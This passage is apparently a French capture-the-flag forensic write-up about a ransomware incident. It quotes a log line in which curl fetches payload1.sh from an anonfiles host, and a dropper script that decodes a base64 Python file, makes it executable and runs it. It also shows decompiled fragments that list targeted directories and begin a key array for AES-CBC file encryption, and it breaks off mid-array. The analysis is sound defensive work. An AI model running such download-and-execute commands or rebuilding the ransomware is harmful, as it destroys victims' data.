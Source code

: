 Je décide donc de fouiller les logs, et je tombe sur ce téléchargement suspect (je cache volontairement le lien pour éviter un téléchargement et une éxécution non souhaitée ;-)):

`auth.log.1:Oct 28 16:13:08 catapult sudo:     root : TTY=pts/1 ; PWD=/root ; USER=root ; COMMAND=/usr/bin/curl -s -k -L https://cdn-109.anonfiles.com/<path>/payload1.sh`

Je tente de chercher si ce fichier persiste sur le disque à travers (commande find) mais rien n'est trouvé, l'attaquant à dû effacer ses traces. Je décide donc de télécharger ce fichier suspect (je vous invite à lire d'autres write-ups https://www.dghack.fr/ qui se servent du fichier dump associé à l'archive pour l'extraction des fichiers/clés).

Le script payload1.sh décode (base64) un fichier python bitcoin.py et lui attribue tous les droits pour ensuite l'éxécuter.    

```sh
#!/bin/sh
pp=`command -v python3`
echo "<hidden base64 encoded payload>" | base64 --decode >> bitcoin.py
chmod 777 bitcoin.py && "$pp" bitcoin.py
```

Une petite difficulté à surmonter est qu'ici le fichier python est compilé.
> bitcoin.py: python 3.9 byte-compiled

Je tente une première décompilation grâce à l'outil decompyle3 qui malheureusement échoue dû à la version trop récente de python.

```
decompyle3 bitcoin.py
I don't know about Python version '3.10.7' yet.
Python versions 3.9 and greater are not supported.
```

Après quelques recherches, je trouve un outil qui parvient à le décompiler : https://github.com/zrax/pycdc.git

> ./pycdc/pycdc decipher/bitcoin.py > bitcoin-dec.py

Le code désassemblé montre que le script python parcours plusieurs dossiers stratégiques (très joliment fait avec du multi-threading :-)) :

```python
paths = [
        '/etc/mysql',
        '/run/mysqld',
        '/var/lib/mysql',
        '/home',
        '/root',
        '/run']
```

et chiffre en AES CBC tous les fichiers sous ces répertoires avec une clé et un sel random de 16 bytes, ce sel étant ajouté au début de chaque fichier chiffré :

```python
    vc = [
        b'0x44',
        b'0x76',
        b'0x73',
        b'0x69',
        b'0x35',
        b'0x32',
        b'0x46',
        b'0x4f',
        b'0x40',
        b'0x36',
        b'0x21',
        b'0x74',
        b'0x2a',
        b'0x31',
        b'0x70',
```